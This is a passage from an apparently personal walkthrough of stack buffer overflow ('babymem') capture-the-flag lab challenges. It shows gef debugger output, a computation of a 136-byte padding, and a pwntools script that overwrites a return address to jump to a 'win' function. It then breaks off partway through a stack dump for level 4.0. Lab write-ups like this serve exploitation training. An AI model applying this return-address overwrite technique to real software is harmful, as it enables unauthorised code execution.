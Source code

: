 ```
gef➤  x/a $rbp + 8
0x7fff0c8f8e98: 0x4024be <main+238>
```

As we can see the return address is `<main+238>` and it is located at `0x7fff0c8f8e98`.

We want to replace this value with the address of the `win` function.

```
gef➤  disass win
Dump of assembler code for function win:
   0x0000000000402184 <+0>:     endbr64 
; -- snip --
```

As we can see the `win` function starts at `0x0000000000402184`.

We now have the information we need:

* [x] Location of buffer: `0x7fff0c8f8e10`.
* [x] Location of stored return address: `0x7fff0c8f8e98`.
* [x] Address of win function: `0x0000000000402184`.

Let's calculate the padding required.

```
gef➤  p/d 0x7fff0c8f8e98 - 0x7fff0c8f8e10
$3 = 136
```

We can now create our payload.

```python
from pwn import *

padding = b'A' * 136
payload = padding + p64(0x402184)

p = process('/challenge/babymem_level3.1')
p.recvuntil('size:')
p.sendline('200')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```

&nbsp;

## level 4.0

> Overflow a buffer and smash the stack to obtain the flag, but this time bypass a check designed to prevent you from doing so!

Our stack frame looks something like this:


```
	    +---------------------------------+-------------------------+--------------------+
	    |                  Stack location |            Data (bytes) |      Data (LE int) |
	    +---------------------------------+-------------------------+--------------------+
rsp ------> | 0x00007ffd173983c0 (rsp+0x0000) | a0 d4 01 6a 59 7f 00 00 | 0x00007f596a01d4a0 |
	    | 0x00007ffd173983c8 (rsp+0x0008) | 78 95 39 17 fd 7f 00 00 | 0x00007ffd17399578 |
	    | 0x00007ffd173983d0 (rsp+0x0010) | 68 95 39 17 fd 7f 00 00 | 0x00007ffd17399568 |
            | 0x00007ffd173983d8 (rsp+0x0018) | dd 65 ec 69 01 00 00 00 | 0x0000000169ec65dd |
            | 0x00007ffd173983e0 (rsp+0x0020) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
	    | 0x00007ffd173983e8 (rsp+0x0028) | a0 16 02 6a 00 00 00 00 | 0x000000006a0216a0 |
	    | 0x00007ffd173983f0 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | \
	    | 0x00007ffd173983f8 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  \
	    | 0x00007ffd17398400 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
```